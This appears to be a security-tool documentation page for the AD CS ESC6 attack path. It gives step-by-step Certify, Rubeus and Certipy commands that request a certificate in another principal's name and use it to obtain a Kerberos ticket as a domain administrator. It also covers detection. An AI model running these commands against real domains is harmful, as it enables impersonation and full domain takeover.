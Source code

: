 ---
title: ADCSESC6b
description: The principal has permission to enroll on one or more certificate templates allowing for authentication.
---


<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>


They also have enrollment permission for an enterprise CA with the necessary templates published. This enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest. The enterprise CA is configured with the EDITF_ATTRIBUTESUBJECTALTNAME2 flag allowing enrollees to specify a Subject Alternate Name (SAN) identifying another principal during certificate enrollment of any published certificate template. This setup allows an attacker principal to obtain a malicious certificate as another principal. There is an affected Domain Controller configured to allow weak certificate mapping enforcement, which enables the attacker principal to authenticate with the malicious certificate and thereby impersonating any AD forest user or computer without their credentials.

## Abuse Info

### Windows

Step 1: Use Certify to request enrollment in the affected template, specifying the affected certification authority and target principal to impersonate:

```bash
.\Certify.exe request /ca:rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA /template:ESC6 /altname:ForestRootDA
```

If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: Convert the emitted certificate to PFX format:

```bash
certutil.exe -MergePFX .\cert.pem .\cert.pfx
```
Step 3: Use Rubeus to request a ticket granting ticket (TGT) from the domain, specifying the
target identity to impersonate and the PFX-formatted certificate created in Step 2:

```bash
.\Rubeus.exe asktgt /certificate:cert.pfx /user:forestrootda /domain:forestroot.com /ptt
```

Step 4: Optionally verify the TGT by listing it with the klist command:

```bash
klist
```

### Linux

Step 1: Use Certipy to request enrollment in the affected template, specifying the affected
certification authority and target principal to impersonate:

```bash
 certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC6 -upn administrator@corp.local
```
If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: Request a ticket granting ticket (TGT) from the domain, specifying the certificate created in Step 1 and the IP of a domain controller::

```bash
certipy auth -pfx administrator.pfx -dc-ip 172.16.126.128
```

## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* Certipy 4.0
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* Domain Escalation Edit Attributes
